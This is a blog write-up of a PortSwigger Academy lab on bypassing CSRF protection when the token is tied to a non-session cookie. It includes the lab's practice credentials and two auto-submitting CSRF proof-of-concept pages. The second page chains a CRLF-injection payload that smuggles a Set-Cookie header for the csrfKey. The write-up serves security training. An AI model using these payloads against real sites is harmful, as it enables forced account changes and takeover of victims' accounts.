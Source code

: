```yaml
---
author: Nithissh S
pubDatetime: 2024-10-06T15:22:00Z
modDatetime: 2024-10-06T09:12:47.400Z
title: CSRF where token is tied to non-session cookie
slug: csrf-portswigger-lab-9
featured: false
draft: false
tags:
  - BSCP
  - CSRF
description:
  This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. You have two accounts on the application that you can use to help design your attack.   
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

## Solution 

After login, just like the other labs what we saw on a CSRF vulnerability on `Update email` but there will be certain measures in order to bypass it 

If update the email and this is how request and response looks like 

![](../../assets/images/bscp/csrf/csrf-30.png)

Now what I did, let's generate a simple CSRF POC and check in the current user session which is `wiener` and it works and updated the email to what I provided 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae400b403c3a094802ae41800ad0033.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="2&#64;2&#46;com" />
      <input type="hidden" name="csrf" value="f3QjcLNuEvtdJ2kz3MPz0wYHq83LZKli" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

For wiener it works, but with the CSRF I logged in as `carlos` and checked the POC it didn't workout because of `Invalid CSRF token`

![](../../assets/images/bscp/csrf/csrf-31.png)

Let's finetune the CSRF POC and our first step to copy the CSRF token from source page once after login as `carlos` and copy the `csrfKey` by intercepting the update email and copy it from the header 

![](../../assets/images/bscp/csrf/csrf-32.png)

Fine tuned CSRF POC looks like as follows:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae400b403c3a094802ae41800ad0033.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker233333&#64;2&#46;com" />
      <input type="hidden" name="csrf" value="HVXSXAHpIyEbsNBBLt9LO2rxlKWTGzub" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://0ae400b403c3a094802ae41800ad0033.web-security-academy.net/?search=nithisshtest%0d%0aSet-Cookie:%20csrfKey=KosN7sSRNilWGKqc6ihUuKUhprqtGQyn%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

let's debug on how it works, in the home page we have a search functionality where it is vulnerable to a CRLF attack through we can inject the `csrfKey` where we copied and copy the CSRF token from `POST` body of `carlos` user when you update the email.. If all goes well, when paste the CSRF POC into the exploit server and then click on `Store -> Deliver the exploit to victim` and that solves the lab 

![](../../assets/images/bscp/csrf/csrf-33.png)